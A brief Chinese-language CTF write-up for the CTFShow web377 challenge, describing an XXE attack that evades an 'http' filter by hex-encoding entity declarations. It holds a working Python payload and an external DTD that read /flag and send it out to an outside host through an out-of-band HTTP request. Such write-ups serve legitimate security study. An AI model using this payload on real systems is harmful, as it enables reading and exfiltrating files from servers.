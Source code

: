 CTF/WP/CTFShow/web377

- # 思路
	- XXE,题目过滤了`http`
	- 使用编码绕过
- # Payload
	- ```python
	  url = "http://bf5c4c6a-f49f-446e-95f6-877823a0c621.challenge.ctf.show/"
	  
	  def encode_xml(s):
	      ans = ""
	      for c in s:
	          ans +="&#x{};".format(hex(ord(c))[2:])
	      return ans
	  
	  evil = """
	      <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
	      <!ENTITY % dtd SYSTEM 'http://ca.xxx.xyz:3001/evil.dtd'>
	  
	  """
	  
	  payload = """\
	  <!DOCTYPE updateProfile [
	      <!ENTITY % uguess "{}">
	      %uguess;
	      %dtd;
	      %send;
	  ]>
	  """.format(
	      encode_xml(evil)
	  )
	  
	  r = base_post(url, data = payload)
	  
	  print(r.text)
	  ```
	- 服务器
		- ```
		  root@VM-a1YYrO2dEe63:~/test# cat evil.dtd
		  <!ENTITY % all
		      "<!ENTITY &#x25; send SYSTEM 'http://ca.xxx.xyz:3001/?data=%file;'>"
		  >
		  %all;
		  ```
-